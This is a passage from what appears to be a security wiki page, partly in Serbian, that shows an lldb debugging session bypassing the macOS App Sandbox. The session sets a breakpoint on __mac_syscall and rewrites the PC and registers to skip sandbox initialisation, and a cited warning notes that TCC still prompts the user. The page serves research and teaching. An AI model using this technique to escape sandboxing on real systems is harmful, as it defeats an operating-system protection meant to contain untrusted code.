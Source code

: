 ```bash
# Lets put a breakpoint in __mac_syscall when x1 is 0 (this is the code to enable the sandbox)
(lldb) breakpoint set --name __mac_syscall --condition '($x1 == 0)'
(lldb) c

# The 1 arg is the name of the policy, in this case "Sandbox"
(lldb) memory read -f s $x0
0x19300eb22: "Sandbox"

#
# BYPASS
#

# Due to the previous bp, the process will be stopped in:
Process 2517 stopped
* thread #1, queue = 'com.apple.main-thread', stop reason = breakpoint 1.1
frame #0: 0x0000000187659900 libsystem_kernel.dylib`__mac_syscall
libsystem_kernel.dylib`:
->  0x187659900 <+0>:  mov    x16, #0x17d
0x187659904 <+4>:  svc    #0x80
0x187659908 <+8>:  b.lo   0x187659928               ; <+40>
0x18765990c <+12>: pacibsp

# To bypass jump to the b.lo address modifying some registers first
(lldb) breakpoint delete 1 # Remove bp
(lldb) register write $pc 0x187659928 #b.lo address
(lldb) register write $x0 0x00
(lldb) register write $x1 0x00
(lldb) register write $x16 0x17d
(lldb) c
Process 2517 resuming
Sandbox Bypassed!
Process 2517 exited with status = 0 (0x00000000)
```
{% hint style="warning" %}
**Čak i kada je Sandbox zaobiđen, TCC** će pitati korisnika da li želi da dozvoli procesu da čita datoteke sa radne površine
{% endhint %}

## References

* [http://newosxbook.com/files/HITSB.pdf](http://newosxbook.com/files/HITSB.pdf)
* [https://saagarjha.com/blog/2020/05/20/mac-app-store-sandbox-escape/](https://saagarjha.com/blog/2020/05/20/mac-app-store-sandbox-escape/)
* [https://www.youtube.com/watch?v=mG715HcDgO8](https://www.youtube.com/watch?v=mG715HcDgO8)
{% hint style="success" %}